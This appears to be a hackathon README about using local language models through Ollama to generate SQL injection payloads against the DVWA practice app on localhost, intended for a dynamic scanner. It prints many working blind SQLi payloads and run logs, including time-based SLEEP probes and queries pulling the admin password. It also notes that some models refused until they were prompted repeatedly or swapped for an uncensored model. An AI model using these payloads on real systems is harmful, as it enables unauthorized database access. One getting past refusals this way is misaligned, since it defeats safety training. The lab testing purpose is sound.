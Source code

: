 # Hackaton project 24

### Build an LLM powered simple SQLMap.
Need depedencies
```bash
pip install requests ollama
```

## Goals
- [x] Determine what models work best for sql injection payload generation.
- [x] Experiment with different prompts to get the correct payload quicker with DVWA.
- [x] Create a POC for automating the test, using sleep payloads.
- [ ] Try to get the POC to detect the SQL injection in all three modes.
  - [x] Low
  - [x] Medium
  - [ ] High

## Notes 
I experimented with different local language models using Ollama. Using Python ollama I pointed the injection point to the exact vulnerable parameter in DVWA. Then using different prompts to have the model ONLY generate a payload, and no other speech, it iteratted through the first generated payload, and if it detected a 5 second sleep, it would stop. Otherwise it would continue until it found a working payload that confirmed the detection.


Here is an example of some of the payloads it is generating.
Columns are: request duration, url, payload (data in POST request)
```bash
python .\main-dvwa-medium.py
0.02 http://localhost/vulnerabilities/sqli_blind/ id=1 OR IF(SUBSTRING(version(),1,1)='5',SLEEP(5),0)&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND IF(SUBSTRING(@@VERSION,1,1)='5',SLEEP(5),0)&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND (SELECT COUNT(*) FROM information_schema.columns WHERE TABLE_SCHEMA = DATABASE() AND TABLE_NAME = 'users') > 0&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND IF(SUBSTRING_VERSION(),1,1)=5,BENCHMARK(10000000,SHA1('string')),NULL) -- -&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND IF(SUBSTRING_VERSION(),1,1)='5',SLEEP(5),NULL)&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND IF(SUBSTRING(@@version,1,1)='5',SLEEP(5),0)&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND (SELECT COUNT(*) FROM information_schema.tables WHERE TABLE_NAME = 'users') > 0&Submit=Submit
4.84 http://localhost/vulnerabilities/sqli_blind/ id=1 AND (SELECT SLEEP(5))&Submit=Submit
4.81 http://localhost/vulnerabilities/sqli_blind/ id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))a)&Submit=Submit
4.91 http://localhost/vulnerabilities/sqli_blind/ id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))a)&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND IF(SUBSTRING(@@VERSION,1,1)='5',SLEEP(5),0)&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND IF(SUBSTRING(VERSION(),1,1)='5',SLEEP(5),0)&Submit=Submit
4.69 http://localhost/vulnerabilities/sqli_blind/ id=1 AND (SELECT SLEEP(5))&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND IF(SUBSTRING(version(),1,1)='5',SLEEP(5),0)&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND IF(SUBSTRING(@@VERSION,1,1)='5',SLEEP(5),0)&Submit=Submit
0.01 http://localhost/vulnerabilities/sqli_blind/ id=1 AND IF(SUBSTRING(@@version,1,1)='5',SLEEP(5),0)&Submit=Submit
4.87 http://localhost/vulnerabilities/sqli_blind/ id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))A)&Submit=Submit
```

After testing around 10 different popular models, the LLama3.3 (42gb) was the only one that I was able to find that would ONLY give me a payload.  Each model continued to babble and talk to me no matter what verbage I used to ask it.  As a result of it being so large, it ran very slow on my machine.  Additionally many models will not generate a SQL injection payload as they have been trained to not provide offensive tactics.  So that also limited which to models would be useful.

## Results
#### Ollama 3.3 (40b) 
This model seemed to get the best results of giving a payload everytime that worked well. It just "worked", although it being slow.  It was worked reliably.

```bash
0.75 http://localhost/vulnerabilities/sqli/?id=1%27+AND+BENCHMARK%282500000%2C+SHA1%281%29%29+%23&Submit=Submit#
20.34 http://localhost/vulnerabilities/sqli/?id=1%27+OR+IF%28SLEEP%285%29%2C1%2C0%29+%23&Submit=Submit#
[+] SQL Injection Found! http://localhost/vulnerabilities/sqli/?id=1%27+OR+IF%28SLEEP%285%29%2C1%2C0%29+%23&Submit=Submit#
Runtime: 88.30
```

#### Llama 3.2 (3b) 
It was quicker in responding, but would respond: "I can't provide information or guidance on illegal or harmful activities, including SQL injection. Is there something else I can help you with?". After repeated prompts, it would somtimes generate something but the regex fu would be too cumbersome in this model.

#### Dolphin-Mixtral (uncensored) (7b) 
This model has mixed results. Sometimes it's responses are hard to grab and use reliably.  It did have some successes, and it was quicker in generating the payload then llama3.3 to test.  This example found it quickly but many other attempts failed. It did morph the payload a bit, which was good.

```bash
payload: ' OR SLEEP(5)=0 -- -
20.43 http://localhost/vulnerabilities/sqli/?id=1' OR SLEEP(5)=0 -- -&Submit=Submit#
[+] SQL Injection Found! http://localhost/vulnerabilities/sqli/?id=1' OR SLEEP(5)=0 -- -&Submit=Submit#
Runtime: 42.79
```

#### Gemma2 (2b)
Not sure what was happening here, it never really got anything correct. It was discussing aws boto3, some coffee, and it gave me a poem one time...

#### Codellama (7b)
This model has potential. As it seems to be quick enough in generating a new payload but the responses are not consistent. I have a feeling with tweaking the prompt a bit more may get more consistent results.  When asked to only provide the payload, it will generate the payload and attach it to the url which makes the post processing hard.  As sometimes it will and sometimes it won't.  But again this model I would spend some more time with as it could have potential as being a good candidate for this type of job.

```bash
payload: http://localhost/vulnerabilities/sqli/?id=1%20AND%20SLEEP(5)&Submit=Submit#
0.02 http://localhost/vulnerabilities/sqli/?id=1http://localhost/vulnerabilities/sqli/?id=1%20AND%20SLEEP(5)&Submit=Submit#&Submit=Submit#
payload: http://localhost/vulnerabilities/sqli/?id=1%20AND%20SLEEP(5)&Submit=Submit#&Submit=Submit#?
0.01 http://localhost/vulnerabilities/sqli/?id=1http://localhost/vulnerabilities/sqli/?id=1%20AND%20SLEEP(5)&Submit=Submit#&Submit=Submit#?&Submit=Submit#
payload: http://localhost/vulnerabilities/sqli/?id=1 AND (SELECT password FROM users WHERE username = 'admin') #
0.01 http://localhost/vulnerabilities/sqli/?id=1http://localhost/vulnerabilities/sqli/?id=1 AND (SELECT password FROM users WHERE username = 'admin') #&Submit=Submit#
payload: http://localhost/vulnerabilities/sqli/?id=1 AND (SELECT password FROM users WHERE username = 'admin') #&Submit=Submit#
0.01 http://localhost/vulnerabilities/sqli/?id=1http://localhost/vulnerabilities/sqli/?id=1 AND (SELECT password FROM users WHERE username = 'admin') #&Submit=Submit#&Submit=Submit#
payload: http://localhost/vulnerabilities/sqli/?id=1%20AND%20(SELECT%20password%20FROM%20users%20WHERE%20username%3D%27admin%27)%20#%26Submit%3DSubmit%23%26Submit%3DSubmit%23
0.01 http://localhost/vulnerabilities/sqli/?id=1http://localhost/vulnerabilities/sqli/?id=1%20AND%20(SELECT%20password%20FROM%20users%20WHERE%20username%3D%27admin%27)%20#%26Submit%3DSubmit%23%26Submit%3DSubmit%23&Submit=Submit#
payload: http://localhost/vulnerabilities/sqli/?id=1%20UNION%20SELECT%20CONCAT('admin',%27@localhost%27),%20password%20FROM%20users%20WHERE%20username=%27admin%27%23&Submit=Submit#?
0.01 http://localhost/vulnerabilities/sqli/?id=1http://localhost/vulnerabilities/sqli/?id=1%20UNION%20SELECT%20CONCAT('admin',%27@localhost%27),%20password%20FROM%20users%20WHERE%20username=%27admin%27%23&Submit=Submit#?&Submit=Submit#
payload: None
0.01 http://localhost/vulnerabilities/sqli/?id=1None&Submit=Submit#
payload: None
0.01 http://localhost/vulnerabilities/sqli/?id=1None&Submit=Submit#
```

## Outcomes

This could be used to generate initial payloads for the Dynamic scanner to use on each scan. So they could potentially change every scan, giving the customer regular testing.  An application may have blacklisting in place to prevent specific characters that our current payloads do not fire on.  But having it regularly change could be a benefit in some cases.

This same process could be used to generate XSS payloads. For the same reason, in some cases specific characters are blocked or blacklisted which could stop our current payloads.  But changing regularly could provide ongoing unique testing to our scans.

The timing to detection was very random. Sometimes it would get the 'low' and 'med' level one the first couple attempts, other times it would go on for many where I had to kill it.  The amount of time it took to generate the payload was very time consuming as I only have a laptop gpu it is working off. :(

Future research could also be around having the LLM, detect fuzz points and then point the payloads to each detected fuzz point.  Though this could be VERY time consuming, it could be worth testing on.